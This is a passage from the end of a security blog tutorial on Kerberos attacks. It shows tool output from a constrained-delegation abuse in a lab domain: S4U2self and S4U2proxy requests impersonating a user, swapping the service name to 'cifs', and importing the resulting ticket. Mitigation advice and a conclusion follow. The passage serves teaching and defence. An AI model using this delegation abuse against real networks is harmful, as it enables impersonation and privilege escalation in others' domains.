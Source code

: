 	[*] Using domain controller: PRIMARY.testlab.local (172.16.0.254)
	[*] Building S4U2self request for: 'TESTLAB.LOCAL\m0chan'
	[*]   Impersonating user 'aidan' to target SPN 'ldap/dc.m0chanAD.local'
	[*]   Final ticket will be for the alternate service 'cifs'
	[*] Sending S4U2self request
	[*] Connecting to 172.16.0.254:88
	[*] Sent 1437 bytes
	[*] Received 1574 bytes
	[+] S4U2self success!
	[*] Building S4U2proxy request for service: 'ldap/dc.m0chanAD.local'
	[*] Sending S4U2proxy request
	[*] Connecting to 172.16.0.254:88
	[*] Sent 2618 bytes
	[*] Received 1798 bytes
	[+] S4U2proxy success!
	[*] Substituting alternative service name 'cifs'
	[*] base64(ticket.kirbi):

	      doIGujCCBragAwIBBaEDAgE...(snip)...

	[*] Action: Import Ticket
	[+] Ticket successfully imported!

Now we don’t really have to issue a `s4u` request if we own the account, we could simply request a `TGS` ticket but of course we would be limited to the context of the pwned account. The `S4U` request is simply if we want to abuse the account trusted for **Constrained Delegation** but impersonate any users context to access said service.

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)Mitigation / Defending Constrained Delegation

- Also if a user is part of the **Protected-Users Group** he/she will will not be allowed for delegation

- Configure all Privileged or Sensitive Accounts with `Account is Sensitive and Cannot be Delegated.

- Use Strong-Strong Passwords for Accounts Trusted for Delegation

# [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-1) Conclusion

I believe in this article I have clearly demonstrated that while Kerberos is a really cool protocol and probably the best internal authentication protocol it has a large attack-surface for adversary’s. All IT Professionals should be aware of this attack-surface so they can configure there environments to meet the mitigation standards otherwise if poorly configured it will not take long for a attacker to compromise the network as a whole very very quickly.

This has been a *really really* long article and when I started this I did not imagine we would end up at 10k words but it’s been a great learning experience. I want to give a special mention to the below people as without them I would not have been able to learn so much in the past week writing this.

